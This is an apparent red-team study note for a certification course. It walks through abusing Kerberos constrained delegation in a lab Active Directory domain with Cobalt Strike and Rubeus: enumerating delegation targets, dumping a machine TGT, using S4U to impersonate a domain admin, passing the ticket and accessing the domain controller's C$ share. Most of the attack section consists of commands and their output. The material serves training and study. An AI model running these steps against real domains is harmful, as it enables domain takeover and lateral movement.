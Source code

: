 [[Delegation]]

Created as a safer way to do delegation than [[Unconstrained Delegation]], it aims to restrict the services to which the server can act on behalf of a user.

It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.

  Constrained delegation can be configured on user accounts as well as computer accounts.  We can search for both.

## 🖊️ via Cobalt Strike

1) To find computers or users (modify the object category accordingly) configured for constrained delegation, search for those whose  `msds-allowedtodelegateto` attribute is not empty. 

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json

[*] TOTAL NUMBER OF SEARCH RESULTS: 1
[
  {
    "dnshostname": "sql-2.dev.cyberbotic.io",
    "samaccountname": "SQL-2$",
    "msds-allowedtodelegateto": [
      "cifs/dc-2.dev.cyberbotic.io/dev.cyberbotic.io",
      "cifs/dc-2.dev.cyberbotic.io",
      "cifs/DC-2",
      "cifs/dc-2.dev.cyberbotic.io/DEV",
      "cifs/DC-2/DEV"
    ]
  }
]
```

in this example we can see the sql box (current beacon session), is delegate to the dc2
==Also notice the account that allows the delegation (sql-2$)

2) To perform the delegation, we need the TGT of the principal (computer or user) trusted for delegation.  The most direct way is to extract it with Rubeus `dump`:

```
beacon> run hostname
sql-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
 --------------------------------------------------------------------------------------------------------------- 
 | LUID    | UserName                    | Service                                       | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
| 0x3e4    | sql-2$ @ DEV.CYBERBOTIC.IO  | krbtgt/DEV.CYBERBOTIC.IO                      | 9/6/2022 7:06:50 PM |

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

    ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
    ServiceRealm             :  DEV.CYBERBOTIC.IO
    UserName                 :  SQL-2$
    UserRealm                :  DEV.CYBERBOTIC.IO
    StartTime                :  9/6/2022 9:06:50 AM
    EndTime                  :  9/6/2022 7:06:50 PM
    RenewTill                :  9/13/2022 9:06:50 AM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  pj1tbiijFCGHkM6S58ShgxxPi8FvA1UB5liBqrSWPCg=
    Base64EncodedTicket   :

doIFpD[...]MuSU8=
```

  You can also request one with Rubeus `asktgt` if you have NTLM or AES hashes.

3) With the TGT, perform an S4U ([[S4U2Self Abuse]]) request to obtain a usable TGS for CIFS on DC-2 (in this example).

Remember that we can impersonate any user in the domain, but we want someone who we know to be a local admin on the target.  In this case, a domain admin makes the most sense.

This will perform an S4U2Self first and then an S4U2Proxy.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /user:sql-2$ /ticket:doIFLD[...snip...]MuSU8= /nowrap`

where:

- `/impersonateuser` is the user we want to impersonate.
- `/msdsspn` is the service principal name that SQL-2 is allowed to delegate to.
- `/user` is the principal allowed to perform the delegation., we saw at the begining
- `/ticket` is the TGT for `/user`.

4) Grab the final S4U2Proxy ticket and pass it into a new logon session.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv`

That will create a new local process with the integrity of the ticket ([[Pass the Ticket]]), then [[Steal the token]]:

`beacon> steal_token [pid]`

5) Check your access into the victim machine:

`beacon> ls \\dc-2.dev.cyberbotic.io\c$`
Use FQDN

You could perform other actions with this new TGS, check [[Alternate Service Name]] method.

### ⚠ Opsec




### Properties
---
📆 created   {{19-02-2024}} 08:51
🏷️ tags: #redteam #crto 

---

